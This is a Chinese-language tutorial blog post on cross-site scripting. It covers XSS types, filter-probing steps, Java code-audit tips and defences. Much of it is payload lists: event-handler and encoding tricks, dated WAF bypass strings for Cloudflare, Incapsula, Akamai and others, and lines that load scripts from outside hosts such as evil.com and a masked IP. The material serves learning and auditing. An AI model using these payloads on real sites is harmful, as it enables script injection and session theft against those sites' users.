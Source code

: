 ```yaml
---
title: XSS漏洞
comments: true
date: 2022-01-18 16:20:37
tags: ["XSS", "渗透测试", "Web安全"]
categories:
- 渗透测试
cover: https://image.geoer.cn/img/image-20220117194917525.png
top_img:
description:
---
```


> 由于时间和篇幅，只做浅析，往后时间充裕了再细细研究



## 简介

XSS（cross site scripting）跨站脚本为了不与网页中层叠样式表（css）混淆，故命名为xss。黑客将恶意代码嵌入网页中，当客户网文网页的时候，网页中的脚本会自动执行，从而达成黑客攻击的目的。



## 分类

### 1.反射型xss

非持久化，一般需要欺骗客户去点击构造好的链接才能触发代码。



### 2.存储型XSS

他会存储到数据库中，这种xss漏洞危害极大，因为它可以长久的保存在网页中，每个浏览过此网页的用户都会中招，很多xss蠕虫的爆发都是基于持久型xss，一般在留言板，评论区类位置容易出现此漏洞。但存储型XSS不用考虑绕过浏览器的过滤问题，屏蔽性也要好很多。

![存储型XSS攻击流程](https://image.geoer.cn/img/image-20220118223432836.png)



### 3.DOM型XSS

全称Document Object Model，使用DOM可以使程序和脚本能够动态访问更新文档的内容，结构及样式。
DOM型XSS是一种特殊类型的反射型XSS，基于DOM文档对象模型的一种漏洞。







## 挖掘

**XSS可以插在哪里？** 

用户输入作为script标签内容

```java
//<script>标签：script是最有直接的xss攻击载荷，脚本标记可以应用外部的js代码，或者将脚本插入网页之中。

<script>alert("hhh")</script>

<script src="http://1.1.1.1/a.js"></script>
```



用户输入作为HTML注释内容



用户输入作为HTML标签的属性名



用户输入作为HTML标签的属性值

```javascript
//<img >标签：

<img src="2" onerror=alert('hhh')>
<img src="2" onerror=alert(/hhh/)>
<img src="javascript:alert("XSS");">
<img dynsrc="javascript:alert('XSS')">
<img lowsrc="javascript:alert('XSS')">
　　
    
//<table>标签：
<table background="javascript::alert('hhh')">

    
//<iframe>标签：<iframe>标签允许另一个HTML网页的嵌入到父页面。IFrame可以包含JavaScript，但是，请注意，由于浏览器的内容安全策略（CSP），iFrame中的JavaScript无法访问父页面的DOM。然而，IFrame仍然是非常有效的解除网络钓鱼攻击的手段。

<iframe src=”http://evil.com/xss.html”>
```



用户输入作为HTML标签的名字



直接插入到CSS里　





### 测试思路

下面让我们来看一下XSS绕过的测试流程。

现实中，大多数的场所是用的黑名单来做XSS过滤器的，有三种方式绕过黑名单的测试：

1.暴力测试（输入大量的payload，看返回结果）
2.根据正则推算
3.利用浏览器bug
初步测试

（1）尝试插入比较正常的HTML标签，例如：`<a>、<b>、<i>、<u>`等，来看一下返回页面的情况是怎样的，是否被HTML编码了，或者标签被过滤了。

（2）尝试插入不闭合的标签，例如：<a、<b、i>、u>、<img等，然后看一下返回响应，是否对开放的标签也有过滤。

（3）然后测试几种常见的XSS向量：

```
<script>alert(1)</script><script>prompt(1)</script><script>confirm(1)</script>......看返回响应，是过滤的全部，还是只过滤了部分，是否还留下了alert、prompt、confirm等字符，再尝试大小写的组合：
<scRiPt>alert(1);</scrIPt>

```



（4）如果过滤器仅仅是把`<script>`和`</script>`标签过滤掉，那么可以用双写的方式来绕过：

```bash
<scr<script>ipt>alert(1)</scr<script>ipt>
```

这样当<script>标签被过滤掉后，剩下的组合起来刚好形成一个完整的向量。

（5）用<ahref标签来测试，看返回响应

```bash
<ahref="http://www.baidu.com">click</a>

```



看看<a标签是否被过滤，href是否被过滤，href里的数据是否被过滤了。如果没有数据被过滤，插入javascript伪协议看看：

```bash
<ahref="javascript:alert(1)">click</a>
```

看是否返回错误，javascript的整个协议内容是否都被过滤掉，还是只过滤了javascript字符。

继续测试事件触发执行javascript：

```bash
<ahref=xonmouseover=alert(1)>ClickHere</a>

```

看onmouseover事件是否被过滤。

测试一个无效的事件，看看他的过滤规则：

```bash
<ahref=xonclimbatree=alert(1)>ClickHere</a>

```

是完整的返回了呢，还是跟onmouseover一样被干掉了。如果是完整的返回的话，那么就意味着，做了事件的黑名单，但是在HTML5中，有超过150种的方式来执行javascript代码的事件，我们可以选用别的事件。测试一个很少见的事件：

```bash
<bodyonhashchange=alert(1)><ahref=#>click</a>

```

onhashchange事件在当前URL的锚部分(以'#'号为开始)发生改变时触发。





### 常用Payload

```bash
#Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>

#Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

#Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)


#HTML5中的一些XSS
<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>
<meter value=2 min=0 max=10 onmouseover=alert(1)>2 out of 10</meter>

<body ontouchstart=alert(1)> // 当手指触摸屏幕时触发
<body ontouchend=alert(1)>   // 当手指从屏幕中移走时触发
<body ontouchmove=alert(1)>  // 当手指在屏幕中拖动时触发XSS使用Script标签（外部Payload）
```







scirpt标签用于定义客户端脚本，比如JavaScript

```

<script>alert(1);</script>

<script>alert("xss");</script>
```



img标签定义HTML页面中的图像

```
<img src=1onerror=alert(1);>

<img src=1onerror=alert("xss");>
```



input标签规定了用户可以在其中输入数据的输入字段

```
<input onfocus=alert(1);>
 onfocus="alert(1);"autofocus>
```


details标签通过提供用户开启关闭的交互式控件，规定了用户可见的或者隐藏的需求的补充细节。ontoggle事件规定了在用户打开或关闭<details>元素时触发：

```
<details ontoggle=alert(1);>

<details openontoggle=alert(1);>
```




svg标签用来在HTML页面中直接嵌入SVG文件的代码

```
<svg onload=alert(1);>
```




select标签用来创建下拉列表

```
<select onfocus=alert(1)></select>

<select onfocus=alert(1)autofocus>
```




iframe标签创建包含另外一个文档的内联框架

```
<iframe onload=alert(1);></iframe>
```




video标签定义视频，比如电影片段或其他视频流。

```
<video><source onerror=alert(1)>
```




audio标签定义声音，比如音乐或其他音频流。

```
<audio src=xonerror=alert(1);>
```




body标签定义文档的主体

```
<body onload=alert(1);>
```



onscroll事件在元素滚动条在滚动时触发。我们可以利用换行符以及autofocus，当用户滑动滚动条的时候自动触发，无需用户去点击触发：

```
<body
onscroll=alert(1);><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><inputautofocus>
```




textarea标签定义一个多行的文本输入控件。

```
<textarea onfocus=alert(1);autofocus>
```



 

marquee标签

```
<marquee onstart=alert(1)></marquee>//Chrome不行，火狐和IE都可以

```

isindex标签

```
<isindex type=image src=1onerror=alert(1)>//仅限于IE
```

利用link远程包含JavaScript文件

<link>标签定义文档与外部资源的关系。在无CSP的情况下才可以使用：

```
<link rel=import href="http://47.xxx.xxx.72/evil.js">
```




利用JavaScript伪协议

javascript:这个特殊的协议类型声明了URL的主体是任意的javascript代码，它由javascript的解释器运行。当浏览器装载了这样的URL时，并不会转向某个URL，而是执行这个URL中包含的javascript代码，并把最后一条javascript语句的字符串值作为新文档的内容显示出来。

a标签

```
<a href="javascript:alert(1);">xss</a>
```



iframe标签

```
<iframe src=javascript:alert(1);></iframe>
```

img标签

```
<img src=xonerror=alert(1)>

<img src=javascript:alert(1)>//IE7以下
```

form标签

```
<form action="Javascript:alert(1)"><input type=submit>
```







### 常见编码

**1.js编码**
js提供了四种字符编码的策略
三位八进制数字，如果个数不够，在前面补0，例如"e"的编码为"\145"
两位十六进制数字，如果个数不够，在前面补0，例如"e"的编码为"\x65"
四位十六进制数字，如果个数不够，在前面补0，例如"e"的编码为"\u0065"
对于一些控制字符，使用特殊的C类型的转义风格(例如\n和\r)

**2.html实体编码**
命名实体：以&开头，以分号结尾
字符编码：十进制，十六进制ASCII码或者Unicode字符编码

**2.url编码**

使用XSS编码测试时需要考虑html渲染的顺序，针对多种编码的组合时，要选择合适的编码进行测试





### 常见bypass

> 可以参考法克论坛的pdf

#### 过滤的绕过

```javascript
大小写绕过
	- 绕过标签黑名单
	- 用代码评估绕过单词黑名单
	- 不完整的HTML标签绕过
	- 绕过字符串的引号
	- 绕过Script标签的引号
	- 在mousedown事件中绕过引号
	- 绕过点（.）的限制
	- 绕过字符串的括号
	- 绕过括号和分号
	- 绕过 onxxxx= 黑名单
	- 绕过空格过滤
	- Bypass email filter
	- 绕过文档黑名单
	- 在字符串中使用javascript绕过
	- 使用其他方式绕过重定向限制
	- 使用其他方式执行alert
	- 不使用任何东西绕过 ">"
	- 使用其他字符绕过 ";"
	- 使用HTML编码绕过
	- 使用Katana绕过
	- 使用Lontara绕过
	- 使用ECMAScript6绕过
	- 使用八进制编码绕过
	- 使用Unicode编码绕过
	- 使用UTF-7编码绕过
	- 使用UTF-8编码绕过
	- 使用UTF-16be编码绕过
	- 使用UTF-32编码绕过
	- 使用BOM（浏览器对象模型）绕过
	- 使用奇怪的编码绕过
```



#### 过狗

> 发现了个好资源，直接借鉴的，推荐去学学
>
> https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

Cloudflare XSS Bypasses

25st January 2021

```
<svg/onrandom=random onload=confirm(1)>
<video onnull=null onmouseover=confirm(1)>
```

21st April 2020

```
<svg/OnLoad="`${prompt``}`">
```

22nd August 2019

```
<svg/onload=%26nbsp;alert`bohdan`+
```

5th June 2019

```
1'"><img/src/onerror=.1|alert``>
```

3rd June 2019

```
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
```

Cloudflare XSS Bypass - 22nd March 2019 (by @RakeshMane10)

```
<svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
```

Cloudflare XSS Bypass - 27th February 2018

```
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```

Chrome Auditor - 9th August 2018

```
</script><svg><script>alert(1)-%26apos%3B
```

Live example by @brutelogic - [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?c1=alert(1)-%26apos%3B)

Incapsula WAF Bypass by [@Alra3ees](https://twitter.com/Alra3ees/status/971847839931338752)- 8th March 2018

```
anythinglr00</script><script>alert(document.domain)</script>uxldz

anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
```

Incapsula WAF Bypass by [@c0d3G33k](https://twitter.com/c0d3G33k) - 11th September 2018

```
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
```

Incapsula WAF Bypass by [@daveysec](https://twitter.com/daveysec/status/1126999990658670593) - 11th May 2019

```
<svg onload\r\n=$.globalEval("al"+"ert()");>
```

Akamai WAF Bypass by [@zseano](https://twitter.com/zseano) - 18th June 2018

```
?"></script><base%20c%3D=href%3Dhttps:\mysite>
```

Akamai WAF Bypass by [@s0md3v](https://twitter.com/s0md3v/status/1056447131362324480) - 28th October 2018

```
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
```

WordFence WAF Bypass by [@brutelogic](https://twitter.com/brutelogic) - 12th September 2018

```
<a href=javas&#99;ript:alert(1)>
```

Fortiweb WAF Bypass by [@rezaduty](https://twitter.com/rezaduty) - 9th July 2019

```
\u003e\u003c\u0068\u0031 onclick=alert('1')\u003e
```





### 练习平台

靶场：xss-labs





### 工具

- xss平台
- beef



## Java代码审计

一种审计策略：

1.收集输入、输出点

2.查看输入、输出点的上下文环境

3.判断Web应用是否对输入、输出环境做了防御工作





### XSS常见触发位置

**输入**在Java中常用`request.getParameter(param)`或`${param}`获取用户的输入信息；

**输出**主要表现为前端的渲染，我们可以定位前端中的一些常见的标识符来找到他们，然后根据后端逻辑来判断漏洞是否存在。

**1.JSP表达式**

`<%=变量%>`是`<%out.println(变量);%>`的简写方式，`<%=%>`用于将已声明的变量或表达式输出到外网页中

```jsp

```



**2.EL（表达式语言）**

是为了使jsp写起来更加简单。

例如：`<%=request.getParameter("username")%>`等价于`${param.username}`

```jsp
<c:out> 标签
    
<c:if> 标签
    
<c:forEach> 标签
```



**3.ModelAndView类的使用**

ModelAndView用来存储处理完成后的结果数据，以及显示该数据的视图，其前端JSP页面可以使用`${参数}`的方法来获取值



**4.ModelMap类的使用**

可以根据模型属性的具体类型自动生成模型属性的名称



**5.Model类的使用**





### 对于反射型XSS

白盒审计中，需要寻找带有参数的输出方法，然后对输出方法对输出内容回溯输入参数





### 对于存储型XSS

要统一寻找“输出点”和“输出点”。由于输出点与输入点可能不在一个业务流中，可以考虑以下方法提高效率：

1.黑白盒结合

2.通过功能、接口名、表名、字段名等角度做搜索



寻找输入点

审计输入点代码

对输出点进行审计





### 对于Dom型XSS

dom型xss不需要与服务器交互，它只发生在客户端处理数据阶段。

粗略说，Dom型xss的成因是不可控的危险数据，未经过滤传入存在缺陷的js代码处理。



**Dom型XSS常见的输入输出点：**

| 输入点            | 输出点             |
| ----------------- | ------------------ |
| document.URL      | eval               |
| document.location | document.write     |
| document.referer  | document.InnerHTML |
| document.form     | document.OuterHTML |
|                   |                    |







### 关键字

```bash
<%=
${
<c:out
<c:if
<c:forEach
ModelAndView
ModelMap
Model
request.getParameter
request.setAttibute
request.getWriter().print()
request.getWriter().writer()

```









## 漏洞防御

- 对与后端有交互的位置执行参数的输入过滤（课通过Java的filter、Spring参数校验注解来实现。比如编写全局过滤器实现拦截并在web.xml中进行配置）
- 对与后端有交互的位置执行参数的输出转义/html编码等
- 开启JS开发框架的XSS防护功能
- 设置HttpOnly（严格的说，HttpOnly对防御XSS不起作用，主要是为了解决xss漏洞后续的cookie劫持攻击，可以阻止客户端脚本访问cookie）
- 采用OWASP企业安全程序接口(ESAPI)实现，类似内容还有谷歌的xssProtect等





## 参考

https://www.cnblogs.com/xyz315/p/14850359.html

https://cloud.tencent.com/developer/article/1474865

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#xss-in-wrappers-javascript-and-data-uri





未完待续...
